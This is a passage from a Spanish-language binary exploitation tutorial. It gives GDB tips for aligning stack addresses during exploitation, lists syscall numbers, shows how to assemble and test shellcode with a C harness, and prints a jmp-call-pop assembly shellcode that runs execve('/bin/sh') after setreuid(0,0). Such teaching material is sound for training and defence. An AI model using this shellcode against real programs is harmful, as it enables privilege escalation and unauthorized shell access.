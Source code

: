 Si necesitas una dirección del Stack el GDB modifica variables de entorno que hae que cambie la dirección con respecto ala ejecución normal:

* `unset env LINES`
* `unset env COLUMNS`
* `set env _=path` donde path es la ruta absoluta al programa
* explotar el programa usando la ruta absoluta
* asegúrate de que PWD y OLDPWD son las mismas que en gdb

## **2.SHELLCODE**

Ver interrupciones de kernel: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h \| grep “\_\_NR\_”

setreuid\(0,0\); // \_\_NR\_setreuid 70  
execve\(“/bin/sh”, args\[\], NULL\); // \_\_NR\_execve 11  
exit\(0\); // \_\_NR\_exit 1

xor eax, eax ; limpiamos eax  
xor ebx, ebx ; ebx = 0 pues no hay argumento que pasar  
mov al, 0x01 ; eax = 1 —&gt; \_\_NR\_exit 1  
int 0x80 ;        Ejecutar syscall

**nasm -f elf assembly.asm** —&gt; Nos devuelve un .o  
**ld assembly.o -o shellcodeout** —&gt; Nos da un ejecutable formado por el código ensamblador y podemos sacar los opcodes con **objdump  
objdump -d  -Mintel ./shellcodeout** —&gt; Para ver que efectivamente es nuestra shellcode y sacar los OpCodes

**Comprobar que la shellcode funciona**

```text
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
            void (*fp) (void);
            fp = (void *)shellcode;
            fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

Para ver que las llamadas al sistema se realizan correctamente se debe compilar el programa anterior y las llamadas del sistema deben aparecer en **strace ./PROGRAMA\_COMPILADO**

A la hora de crear shellcodes se puede realizar un truco. La primera instrucción es un jump a un call. El call llama al código original y además mete en el stack el EIP. Después de la instrucción call hemos metido el string que necesitásemos, por lo que con ese EIP podemos señalar al string y además continuar ejecutando el código.

EJ **TRUCO \(/bin/sh\)**:

```text
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax            
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
```